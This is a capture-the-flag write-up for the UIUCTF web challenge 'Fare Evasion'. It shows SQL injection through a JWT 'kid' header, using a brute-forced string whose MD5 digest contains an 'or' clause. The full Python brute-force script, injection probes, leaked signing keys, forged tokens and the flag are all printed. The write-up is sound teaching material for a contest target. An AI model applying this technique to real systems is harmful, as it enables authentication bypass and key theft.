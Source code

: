 # Fare Evasion
**Category:** Web

**Points:** 370

**Solves:** 173

### Solution Overview

We can achieve SQL injection through the `kid` (key id) header of the JWT cookie. We change the JWT header `kid` to `32d4627866e846c346fee3659eaec1aa`, a brute-forced random string that, when MD5 hashed then encoded with Latin-1, matches the regex `.*'[oO][rR]'[1-9].*` (to allow for SQL injection). We then sign it with the provided key: `a_boring_passenger_signing_key_?`.

Using our new token, `eyJhbGciOiJIUzI1NiIsImtpZCI6IjMyZDQ2Mjc4NjZlODQ2YzM0NmZlZTM2NTllYWVjMWFhIiwidHlwIjoiSldUIn0.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.nHd3DtP9PwzT6Mm5wR8lwamie0kXOFpfjq9v-3AN-Vc`, we perform an SQL injection and access the conductor key: `conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e`.

Finally, we sign our token with the conductor key, getting `eyJhbGciOiJIUzI1NiIsImtpZCI6IjMyZDQ2Mjc4NjZlODQ2YzM0NmZlZTM2NTllYWVjMWFhIiwidHlwIjoiSldUIn0.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.u_Y5T7Ctm74HViemCkIAbjAH2u_g4eHUBtG_pC6OVUQ`, which gives us the flag.

![Flag](/images/FareEvasionFlag.png)

### Detailed Solution

1. **Initial Investigation:**
    Visiting the website, we encounter a button that triggers a pop-up instructing us to sign our own tickets. It also provides a hashed string in Latin-1 and a secret, `a_boring_passenger_signing_key_?`. This suggests the use of JWT tokens.

    ![Website](/images/FareEvasionWebsite.png)

2. **Examining the Script:**
    At the bottom of the page source there is this script:
    ```js
    <script>
        async function pay() {
            const r = await fetch("/pay", { method: "POST" });
            const j = await r.json();
            document.getElementById("alert").classList.add("opacity-100");
            document.getElementById("alert").innerText = j["message"];
            setTimeout(() => { document.getElementById("alert").classList.remove("opacity-100") }, 5000);
        }
    </script>
    ```
    This script sends a POST request to `/pay` and displays the response. There is a 'todo' comment at the bottom which hints towards the solution but I'll get to that later. Notably, the comment reveals an SQL query:
    ```sql
    SELECT * FROM keys WHERE kid = '${md5(headerKid)}'
    ```
    Presumably our goal is to find some way of getting SQL injection.


3. **JWT Token Analysis:**
    We have a JWT cookie, but its signature is invalid. 
    
    ![JWT Cookie](/images/FareEvasionCookie.png)
    ![JWT invalid](/images/FareEvasionJWTinvalid.png)

    However, using the provided secret, `a_boring_passenger_signing_key_?`, we can sign it:

    ![JWT valid](/images/FareEvasionJWTvalid.png)

4. **Modifying `kid` for SQL Injection:**
    By setting the JWT header `kid` to 'a' and paying, we notice the pop-up changes:

    ![New Pop Up](/images/FareEvasionJWTa.png)

    This confirms that the `kid` is influencing the SQL query.  I didn't know in the backend whether or not the `kid` string would be inserted in the query or if the code would call `md5(headerKid)` directly. If it was inserted in, a basic `' or 1 --` should work. It didn't end up working but when trying different variations `' or 1;` created a suprising pop up.

    ![Null Pop Up](/images/FareEvasionNull.png)

    It's all coming together now, the md5 hash is encoded in latin-1 like the hint said. That's why the original hashed value looks so weird. Sure enough, this md5 hash to latin-1 contains a null char.

    ![hashed null char](/images/FareEvasionNullHash.png)

5. **Finding an Exploit String:**
    This would require a lot of luck so we should try to make our injection as small as possible, something like `...'or'...` would be nice. Turns out string truthiness in SQL is a bit [weird](https://stackoverflow.com/questions/12221211/how-does-string-truthiness-work-in-mysql) so we ended up using `.*'[oO][rR]'[1-9]`. `'` to close off the original string. Any capitalization of 'or'. `'` to start the second string. A non zero number for truthiness. Finally, `.*` for any prefix. (Technically I also need to make sure that there are no null chars and no other single quotes in my hash but those are rather unlikely and worst case is just running my script again).

    We brute-force random strings, hash them using MD5, convert them to Latin-1, and check if they match the regex pattern. After around 10 minutes, we find a suitable string:

    ```py
    def check_substring_and_nulls(md5_hex):
        latin1_string = bytes.fromhex(md5_hex).decode('latin-1', errors='ignore')
        if re.match(".*'[oO][rR]'[1-9]", latin1_string) and '\x00' not in latin1_string:
            return True
        return False
        
    md5_hex = md5_hash_string(random_string)
    if check_substring_and_nulls(md5_hex):
        ...
    ```

    Console output:
    ```
    on iter 501000000
    on iter 502000000
    Random String: 32d4627866e846c346fee3659eaec1aa
    MD5 Hex: 274f72273279e3bf6f93443f39a42e88
    Latin-1 String: 'Or'2yã¿oD?9¤.
    ```

6. **Performing the Injection:**
    Setting the JWT header `kid` to `32d4627866e846c346fee3659eaec1aa`, we perform the injection and receive the conductor key:

    ![Website injected](/images/FareEvasionInjectedAlert.png)

    Full message:
    ```json
    {
        "message": "Key isn't passenger or conductor. Please sign your own tickets. \nhashed \u00f4\u008c\u00f7u\u009e\u00deIB\u0090\u0005\u0084\u009fB\u00e7\u00d9+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e\nhashed _\bR\u00f2\u001es\u00dcx\u00c9\u00c4\u0002\u00c5\u00b4\u0012\\\u00e4 secret: a_boring_passenger_signing_key_?",
        "success": false
    }
    ```
    Extracted conductor key: `conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e`

7. **Final JWT Token:**
    Signing our JWT with the conductor key:

    ![Sign with conductor key](/images/FareEvasionConductorKey.png)

    Using this new token on the website gives us the flag:

    ![Flag](/images/FareEvasionFlag.png)

### Script

```python
import random
import string
import hashlib
import re

letters = string.ascii_letters + string.digits

def md5_hash_string(input_string):
    """Hash the input string using MD5 and return the hexadecimal digest."""
    md5_hash = hashlib.md5(input_string.encode('utf-8'))
    return md5_hash.hexdigest()

def check_substring_and_nulls(md5_hex):
    """Convert MD5 hex digest to Latin-1 and check for substring and null characters."""
    latin1_string = bytes.fromhex(md5_hex).decode('latin-1', errors='ignore')
    if re.match(".*'[oO][rR]'[1-9]", latin1_string) and '\x00' not in latin1_string:
        return True
    return False

def main():
    random_string = ''.join(random.choice(letters) for _ in range(10))
    for i in range(1000000000):
        md5_hex = md5_hash_string(random_string)
        if check_substring_and_nulls(md5_hex):
            print(f"Random String: {random_string}")
            print(f"MD5 Hex: {md5_hex}")
            latin1_string = bytes.fromhex(md5_hex).decode('latin-1', errors='ignore')
            print(f"Latin-1 String: {latin1_string}")
            break
        if i % 1000000 == 0:
            print("on iter", i)
        # Use previous hash instead of new random string to optimize speed
        random_string = md5_hex

if __name__ == "__main__":
    main()
```

### Flag

```plaintext
uiuctf{sigpwny_does_not_condone_turnstile_hopping!}
```